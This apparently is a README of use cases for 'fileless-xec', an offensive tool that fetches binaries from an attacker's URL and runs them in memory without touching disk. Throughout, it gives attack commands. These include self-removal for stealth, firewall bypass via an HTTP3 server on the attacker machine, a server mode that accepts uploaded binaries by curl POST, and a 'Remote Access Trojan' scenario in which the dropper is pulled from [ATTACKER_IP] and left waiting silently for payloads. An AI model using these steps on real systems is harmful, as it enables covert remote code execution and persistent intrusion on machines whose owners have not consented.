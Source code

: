 # `fileless-xec` use cases and examples


 - [`curl | sh` for binaries](#curl--sh-for-binaries)
 - [Execute binary with stdout/stdin](#execute-binary-with-stdoutstdin)
 - [Execute binary with arguments](#execute-binary-with-arguments)
 - [`fileless-xec` self remove](#fileless-xec-self-remove)
 - ["Remote go": execute go binaries without having go installed locally](#remote-go-execute-go-binaries-without-having-go-installed-locally)
 - [Bypass firewall with HTTP3](#bypass-firewall-with-http3)
 - [Execute a shell script](#execute-a-shell-script)
 - [`fileless-xec` server mode](#fileless-xec-server-mode)
 - [`fileless-xec` on windows](#fileless-xec-on-windows)

## `curl | sh` for binaries

This is the basic use case for `fileless-xec`. It enables us to run a remote binary without dropping it on disk:
```shell
fileless-xec [binary_url]
```

## Execute binary with stdout/stdin

`fileless-xec` is able to execute binaries with stdout and stdin. There isn't any special configuration or flag to make it works

## Execute binary with arguments

You can also passed arguments to your binary:
```
fileless-xec [binary_url] -- [flags_and_values_for_the_binary]
```

## `fileless-xec` self remove

On linux, you could remove `fileless-xec`from disk during its execution. This a step further for stealthiness:
```
fileless-xec --self-remove [binary_url]
```

## "Remote go": execute go binaries without having go installed locally

### Pre-requisites

* Attacker machine: 
  * go installed
* Target machine:
  * `fileless-xec`


If you want to run some go code on machine where go is not installed and you don't want to install it:

* For stealthiness reason (in a pentest, the less we install the better)
* For idleness orquickness reason

You will build your go on attacker machine, and use `fileless-xec` to execute it on target machine.

Of course, this use case is applicable for every program language that provides toolchains to make binaries (ex C/C++)

## Bypass firewall with HTTP3

See [HTTP3 - README](https://github.com/ariary/fileless-xec#http3quic) for explanation about the benefit of HTTP3 (spoil: bypass fw):

On attacker machine, set up HTTP3 server:
```bash
./example/http3/genkey.sh
go build light-server.go
./light-server  # launch on port 6121
```

On target machine, tell that you want to use http3:
```
fileless-xec --http3 https://[attacker_ip]:6121/[binary_name]
```

## Execute a shell script

If you are tired of running binaries.. and you want to run shell. This is a workaround example.

1. Transform your script in go code: (delete line `#!/bin/bash` and avoid `"`)

```
go build ./example/shell/generate.go
./generate myscript.sh
```

2. Compile it:

 ```
 go build nestedscript.go
 ```

3. Classicaly execute it on target
```
fileless-xec  [binary_url]
```

## `fileless-xec` server mode

This feature provide  another type of interaction between target and attacker machine:
target machine would have a server (upload binaries server) and attacker machine will send the binary ( trough http, http3, ...) to the server. Once the binary file received the target machine execute it as usual.

We change the connection direction between the 2 machines. As bind shell/reverse shell, it is useful to have both possibilities to adapt to the different possible network permissions



On target Launch the server:
```
fileless-xec server [port]
```

On Attacker machine send the binary to be executed:
* with curl: `curl -X POST -F "executable=@[BINARY_FILENAME]" http://[TARGET_IP:PORT]/upload`
* using client provide in example: 
```
#change url and port in ./example/client/client.go to the target machine ones
go build ./example/client/client.go
./client [BINARY_FILENAME]`
```

### RAT (Remote Access Trojan) scenarion

fileless-xec is a dropper that make your program execution stealth. But we can go further and launch a stealth fileless-xec server (RAT), that will wait for program execution

1. On attacker machine build/download fileless-xec and expose it trough HTTP server:
```
# in the same folder of fileless-xec binary
python3 -m http.server 11211
```

2. On target machine launch your stealth fileless-xec (with an "unstealth" one):
```
./fileless-xec --self-remove http://[ATTACKER_IP:PORT]/fileless-xec -- serve 11211
```

3. Now your fileless-xec is silently and patiently waiting for your program to execute it. If you want execute it, on attacker machine:
```
curl -X POST -F "executable=@[BINARY_FILENAME]" http://[TARGET_IP]:11211/upload
```

## `fileless-xec` on windows

You could alse use `fileless-xec` on windows.
Build `filess-xec.exe` with Makefile:
```
make windows.build.fileless-xec
```

Usage is the same except that it is less stealth as binaries are on disk and you can't self remove `fileless-xec` while execution. Meanwhile the binary is immediatly deleted after execution
